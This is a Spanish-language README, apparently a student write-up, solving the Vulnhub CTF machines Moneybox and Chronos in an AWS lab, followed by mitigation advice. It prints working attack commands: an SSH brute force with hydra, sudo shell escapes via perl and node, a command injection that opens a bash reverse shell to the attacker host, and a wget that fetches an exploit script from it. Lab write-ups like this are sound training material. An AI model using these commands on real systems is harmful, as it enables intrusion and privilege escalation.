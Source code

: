 <p align="right"><a href="https://github.com/v1c4r10us/money-chronos"><img src="https://img.shields.io/badge/view%20on%20github-%232671E5.svg?style=for-the-badge&logo=githubactions&logoColor=white"/></a></p>


***

# Introducción
En este proyecto se efectúa la solución a 02 máquinas CTF(Capture The Flag) del repositorio de Vulnhub: [Moneybox](https://www.vulnhub.com/entry/moneybox-1,653/) y [Chronos](https://www.vulnhub.com/entry/chronos-1,735/), montadas en un entorno cloud empleando el servicio EC2 de AWS.

# Infraestructura
Tanto Moneybox como Chronos se montaron en diferentes instancias EC2, adicionalmente la máquina atacante con [Kali](https://www.kali.org/get-kali/#kali-platforms). Las 03 instancias se encuentran desplegadas en la misma VPC y se realiza el networking correspondiente para que se encuentren conectadas entre sí. Sin embargo la única máquina accesible desde fuera a través de una public IP es la máquina atacante.

**`Infraestructura inicial`**
<p align="center"><img src="https://lh3.googleusercontent.com/d/11c5o4umxrLiI0OOnam64kf3EjaVgHJ2X"></img></p>

**`Infraestructura securizada con herramientas nativas AWS`**
<p align="center"><img src="https://lh3.googleusercontent.com/d/1pADHae9b56royVwhx0JmwbbxH67-VIH5"></img></a>

# Moneybox (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`FTP abuse`**
```bash
$ ftp -U anonymous:anonymous <ip-target>
$ ftp > get
```
**`Steganography & HTTP abuse`**
```bash
$ xxd -l <specific-file>
$ curl <ip-target>:80
$ dirb <ip-target>:80
$ steghide extract -sf <specific-file>
```
**`SSH Brute Force`**
```bash
$ hydra -l <any-user> -P <dictionary.txt> -f <ip-target> ssh
```
**`Privilege escalation with PERL`**
```bash
$ sudo perl -e 'exec "/bin/sh";'
```
**`Execution diagram`**
<p align="center"><img src="https://lh3.googleusercontent.com/d/1KeScz_V1E5-qjqXH3OwnRvCzOa4t1ueu"></img></p>

**`Flags`**
```bash
> us3r1{F14g:0ku74tbd3777y4}
> us3r{F14g:tr5827r5wu6nklao}
> r00t{H4ckth3p14n3t}
```

# Chronos (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`HTTP abuse & domain resolution`**
```bash
$ curl http://<ip-target>
$ echo "<ip-target> chronos.local" >> /etc/hosts
$ curl http://chronos.local
```
**`Deobfuscation, decode, payload generation & command injection (Reverse shell)`**
```bash
$ curl http://chronos.local/date?format=('+Today is %A, %B %d, %Y %H:%M:%S.'; bash -c 'bash -i >& /dev/tcp/<ip-kali>/9002 0>&1')[base58 Encode]
$ nc -nlvp 9002
```
**`www-data abuse`**
```bash
$ cd ../chronos-v2/backend
$ cat package.json
```
**`RCE attack to express-fileupload (versions < 1.1.10)`**
```bash
> Kali side:
$ nc -nlvp 8888
$ python3 -m http.server

> target-side
$ wget http://<ip-kali>:8000/pollutor.py
$ python3 pollutor.py
```
**`Abuse "imera" user & Shell spawn with NODE`**
```bash
$ sudo -l
$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
**`Execution diagram`**
<p align="center"><img src="https://lh3.googleusercontent.com/d/1iwHlQc8Gl9fvGv-oV7CMMLNU5yXst9Yy"></img></p>

**`Flag`**
```bash
> YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
# Medidas de mitigación de vulnerabilidades encontradas
**`Moneybox`**
+ Actualizar el servicio FTP a su ultima versión y si es posible migrar hacia otro puerto.
+ Eliminar el acceso FTP anónimo (anonymous:anonymous) asignar un usuario y una contraseña.
+ Utilizar certificados lugar de contraseñas de usuario para el acceso por SSH.
+ Emplear herramientas que eviten ataques de fuerza bruta tales como: **fail2ban** y **fwknop**.
+ Editar el fichero /etc/sudoers asignando los mínimos privilegios a grupos y usuarios.
+ Hardening del servidor web Apache.
+ Utilizar infraestructura adicional como IDS/IPS (mostrada en infraestructura securizada nativa de AWS).

**`Chronos`**
+ Evitar malas prácticas en el desarrollo backend: Evitar uso directo de comandos del sistema en el código o en su defecto, mitigar el uso de *keywords* tales como: bash, sh, whoami, etc.
+ Prevenir accesos mediante reverse-shell a través de NODE modificando el atributo de express-fileupload a **{parseNested: false}**.
+ Asignar lo mínimos privilegios mediante el fichero /etc/sudoers.
+ Emplear infraestructura securizada adicional (como la nativa proporcionada por AWS).

# Colaboradores
+ Daniel Henares
+ Edgar Huanca
+ Alejandro Jiménez
+ Mateo Vizuete
